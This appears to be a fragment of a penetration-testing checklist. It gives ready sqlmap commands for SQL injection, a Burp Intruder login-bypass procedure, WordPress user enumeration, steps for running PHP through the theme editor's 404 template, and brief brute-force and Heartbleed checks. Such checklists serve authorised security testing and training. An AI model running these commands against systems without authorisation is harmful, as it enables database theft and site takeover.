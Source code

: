 #### SQL-Injection

```
# Post
./sqlmap.py -r search-test.txt -p tfUPass

# Get
sqlmap -u "http://INSERTIPADDRESS/index.php?id=1" --dbms=mysql

# Crawl
sqlmap -u http://INSERTIPADDRESS --dbms=mysql --crawl=3
```

#### Sql-login-bypass

- Open Burp-suite
- Make and intercept a request
- Send to intruder
- Cluster attack.
- Paste in sqlibypass-list (https://bobloblaw.gitbooks.io/security/content/sql-injections.html)
- Attack
- Check for response length variation

#### Wordpress
```
wpscan -u http://target --enumerate users
WordPress Admin Access: Appearance->Editor->404 Template for php
Navigate to TargetIP/wordpress/wp-content/themes/<name of theme>/404.php
```

### Password brute force - last resort

```
cewl
```

### Port 443 - HTTPS

Heartbleed:

```
# Heartbleed
sslscan INSERTIPADDRESS:443
```

## Vulnerability analysis

Now we have gathered information about the system. Now comes the part where we look for exploits and vulnerabilites and features.

### To try - List of possibilies
Add possible exploits here:


